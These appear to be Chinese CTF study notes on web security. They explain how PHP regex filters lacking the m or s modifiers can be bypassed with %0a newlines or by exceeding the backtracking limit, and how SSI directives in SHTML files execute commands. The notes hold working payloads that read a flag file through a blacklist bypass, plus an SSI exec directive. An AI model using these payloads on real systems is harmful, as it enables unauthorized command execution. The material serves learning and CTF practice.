 - 对于`^....$`形式的正则，可以用%0a绕过法。

  原理是没有设置多行模式，即修饰符`m`,那么`^`只会匹配第一行内容。也没有修饰符`s`,`.*`不会匹配换行符%0a

  **因为不能匹配到完整的字符串返回FALSE而绕过。**

  可用payload如下：

  ```
  ?cmd={%0a"cmd":"/bin/cat /home/rceservice/flag"%0a}
  #第一个.*匹配{，然后第一个%0a由黑名单捕获，但是最后的 .* 不能匹配换行符,因此也匹配不到换行后的 }所以不能匹配到完整字符串,返回值为空,完成正则绕过
  ?cmd=%0a{%0a"cmd":"/bin/cat /home/rceservice/flag"}
  ?cmd=%0a{"cmd":"/bin/cat /home/rceservice/flag"%0a}
  ?cmd=%0a{"cmd":"/bin/cat /home/rceservice/flag"}%0a%0a
  #这里要两个%0a是因为单行模式$默认你最后的%0a之前的内容才是要传输的内容
  ```

- 对于有贪婪匹配的，可以利用超回溯次数的方法。

  php的正则引擎就是回溯引擎。简单来说就是遇到贪婪匹配的量词时候会一直匹配到结尾，然后再不断往前进行回溯。为了防止无限回溯被DDOS攻击，一般会设置回溯次数上限比如100万次，超出就立马返回FALSE

# SHTML

> **SHTML** 是一种特殊的 HTML 扩展，允许在网页中嵌入服务器端指令（SSI），以实现动态内容生成和页面的重复使用

所以重点是可以写入SSI(Server Side Includes)指令。其语法如下

```
<!--#exec cmd="ls" -->
<!--#exec cgi="/cgi-bin/access_log.cgi"-->
<!--#echo var="DOCUMENT_URI" -->
<!--#include virtual="/includes/header.html" -->   包含一个相对于网站根目录的虚拟路径的文件
<!--#include file="footer.html" -->                包含一个相对于当前目录的物理路径的文件
```

最重要就是include和exec。exec最为简单，直接写入要执行的系统命令就可以了。